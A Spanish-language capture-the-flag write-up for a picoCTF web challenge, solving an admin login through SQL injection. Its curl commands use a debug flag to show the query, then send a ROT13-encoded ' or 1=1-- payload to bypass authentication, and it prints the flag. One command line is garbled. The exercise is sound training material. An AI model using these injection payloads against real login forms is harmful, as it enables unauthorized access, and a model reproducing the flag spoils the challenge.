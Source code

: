 # Nombre Reto

## Descripcion Reto
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!

## Pistas
1. Seems like the password is encrypted.

## Solución
![[Pasted image 20230314131901.png]]
![[Pasted image 20230314131914.png]]


```bash
ajhagaal-picoctf@webshell:~$ curl "https://jupiter.challenges.picoctf.org/problem/54253/login.php" --data "password=test&debug=1"
<pre>password: test
SQL query: SELECT * FROM admin where password = 'grfg'
ajhagaal-picoctf@webshell:~$ curl "https://jupiter.challenges.picoctf.org/problem/54253/login.php" --data "password=' or 1=1--&debug=1"
<pre>password: ' or 1=1--
SQL query: SELECT * FROM admin where password = '' be 1=1--'
</pre>ajhagaal-picoctf@webshell:~$ curl "https://jupiter.challenges.picoctf.org/problem/54253/login.php" --dassword=' be 1=1--&debug=1" && echo
<pre>password: ' be 1=1--
SQL query: SELECT * FROM admin where password = '' or 1=1--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>
ajhagaal-picoctf@webshell:~$
```

## Bandera
* picoCTF{3v3n_m0r3_SQL_7f5767f6}

## Notas adicionales
| Comando | Descripcion |
|---------|-------------|
| curl "URL" --data | Envía los datos especificados en una petición POST al servidor HTTP |

## Referencias
- []()